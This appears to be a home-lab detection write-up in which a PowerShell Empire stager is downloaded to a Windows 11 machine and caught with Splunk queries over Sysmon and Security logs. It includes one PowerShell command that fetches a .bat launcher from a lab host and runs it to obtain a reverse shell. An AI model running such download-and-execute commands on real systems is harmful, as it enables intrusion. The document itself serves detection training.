

# Detection Usecase 3 : Suspicious File Download and Execution via PowerShell Empire


# Scenario Summary: 

An Attacker has downloaded a bat file in the system using powershell and attempted to execute that bat file in the System to get a Reverse Shell Connection.

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.  
- The Attack was simulated by Kali Linux on Windows as follows:  

1) Attacker generated the listener and stager in Powershell-Empire then downloaded that bat file in victim system:     
```
Invoke-WebRequest -URI http://192.168.0.106:8888/launcher.bat -Outfile C:\Users\sshuser\shell.bat
./shell.bat
```  
2) Got shell access to victim Machine:  



- Tools Used:  
    - Attacker Tool : PowerShell-Empire.  
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon  


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                         |
|---------------------------|-----------|-------------------------------------|
| WinEventLog : Sysmon      | 3         | Connection Attempt Detected         |
| WinEventLog : Sysmon      | 1         | Process Creation                    |
| WinEventLog : Sysmon      | 11        | File Creation                       |
| WinEventLog : Security    | 5156      | Connection Permission was permitted |

# Detection Query / Logic:
```spl 
- Search : Command&Control Beaconing
index=* 192.168.0.106 | stats count by EventCode, Source_Address, Destination_Address
```
```spl 
- Search : Connection Attempt
index=* EventCode=3 OR EventCode=5156
```
```spl 
- Search : File or Process Creation
index=* EventCode=11 OR EventCode=1
```

# Sample Alert Screenshot

1) Attacker make a connection with the system and run powershell:  

  


2) After running the Powershell there was again a connection through Powershell:   

  

3) After the Connection a new file was created:  

 

4) Then the file was run and some encoded string where noticed in the logs:  

  
  

5) After the file was run many outbound response is seen in the logs:  

 


# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify the events(e.g.,Event ID = 1,11) and identify what command has been executed.  
-> Try to correlate it with any previous event(e.g.,Brute-Force or Enumeration,Failed Login etc.).  
-> If you validated that the command execution of any file (exe,bat etc) is been done by some unknown IP then, isolate the system and block the unknown IP.  
-> Check for any Registory Modification or New Service Installation, or any Account Creation from that unknown IP.  
-> Preserve the Evidence & Trigger an incident response.     
-> Document & Report.


# Detection Status

 -> Successfully Detected.  
